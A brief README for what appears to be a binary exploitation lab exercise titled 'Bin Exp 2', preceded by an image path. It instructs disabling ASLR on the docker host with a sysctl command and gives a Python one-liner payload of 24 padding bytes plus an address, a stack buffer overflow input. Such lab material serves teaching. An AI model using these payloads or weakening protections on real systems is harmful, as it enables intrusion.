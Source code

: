 ## Docker Run Commands

### Bin Exp 2
* Run ```sudo sysctl -w kernel.randomize_va_space=0``` on the server/docker-host then run the docker
* Payload ```python -c "print '\x41'*24 + '\xfd\x55\x55\x56'"```

